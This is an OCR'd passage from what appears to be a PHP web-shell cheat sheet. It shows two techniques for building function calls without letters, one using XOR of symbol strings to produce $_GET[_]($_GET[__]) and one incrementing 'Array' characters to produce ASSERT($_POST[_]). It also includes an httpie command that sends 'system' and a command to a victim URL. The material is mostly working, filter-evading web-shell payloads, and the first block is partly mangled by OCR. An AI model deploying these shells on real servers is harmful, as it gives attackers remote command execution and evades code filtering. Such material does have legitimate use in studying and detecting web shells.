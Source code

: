 ```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```

### Perl like

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
 
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;
 
$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

